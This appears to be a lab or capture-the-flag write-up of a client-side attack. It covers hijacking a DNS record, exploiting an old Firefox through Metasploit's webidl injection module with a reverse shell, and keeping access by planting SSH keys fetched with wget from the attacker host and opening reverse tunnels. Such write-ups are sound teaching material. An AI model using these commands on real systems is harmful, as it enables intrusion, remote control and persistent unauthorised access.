 # 5d402e_client_side_attack

We have control of a DNS server(10.0.3.133) and we know that a client(10.0.7.225) is connecting to Cuiteur(10.0.2.197) at regular intervals.

In the DNS server, we change the IP address of Cuiteur to our own IP address.
```
# use the php-dns as a DNS server
ps -ef | grep dns
root       315     1  0 12:01 ?        00:00:00 php /usr/bin/php-dns

# find the config file
find /etc -type f -exec grep -l "10.0.2.197" {} \; 2>/dev/null
/etc/php-dns/dns_records.json

# change A address to our kali IP
"cuiteur-s6.ethhak":
{"A": "192.168.0.7"},


# restart the service
systemctl restart php-dns

# or start the service manually
/usr/bin/php-dns

```

According to the result of last 14ce18_traffic_sniffing challenge, we know the client is Firefox version 26. There is vulnerability called [firefox_webidl_injection](https://www.hackingarticles.in/exploit-remote-pc-using-firefox-webidl-privileged-javascript-injection/)
```
use exploit/multi/browser/firefox_webidl_injection
set payload firefox/shell_reverse_tcp
set srvhost 192.168.0.7
set srvport 8080
set lhost 192.168.0.7
set lport 4444
set URIPATH /
exploit
sessions -u 1  #  upgrade sessions to a meterpreter one
sessions -l
sessions -i 2
meterpreter > sysinfo
meterpreter > shell
> find / -name "flag*" 2>/dev/null
/home/ubuntu/flag{5d402e77264991c2580b8dd9a546bd8718b40c06fd711e}.jpg

```


After we get the flag, we can find private key of the current user in `.ssh` folder.


## getting a better shell

The first option is to upgrade the netcat shell to fully interactive shell, https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/.

Another option is ssh forwarding.

Remote forwarding:
```
# prepare keys, kali machine
ssh-keygen -f c_id_rsa
chmod 600 c_id_rsa
cat c_id_rsa.pub >> ~/.ssh/authorized_keys

# ship keys to the target
cd ~/.ssh
wget 192.168.0.7:8000/c_id_rsa
wget 192.168.0.7:8000/c_id_rsa.pub
chmod 600 c_id_rsa
cat c_id_rsa.pub >> ~/.ssh/authorized_keys

# set SSH server on our kalii machine
sudo mkdir /run/sshd
sudo /usr/sbin/sshd -f /etc/ssh/sshd_config -d


# set port forwarding on the target
ssh -R -N 19999:127.0.0.1:22 jinjia@192.168.0.7 -i c_id_rsa -o StrictHostKeyChecking=no

# connect to the target on the kali machine
# the traffic to 19999 is forwarded to the target 22 port
ssh target@127.0.0.1 -i c_id_rsa -p 19999 -o StrictHostKeyChecking=no
```


Local forwarding
```
# on the kali machine
ssh -L 19999:10.0.7.225:7777 blade@10.0.7.225 -i blade_id_rsa -p 52961 -o StrictHostKeyChecking=no
nc -lvp 7777


# on the kali machine
# the traffic to 19999 is forwarded to the target 7777 port
nc 127.0.0.1 19999

```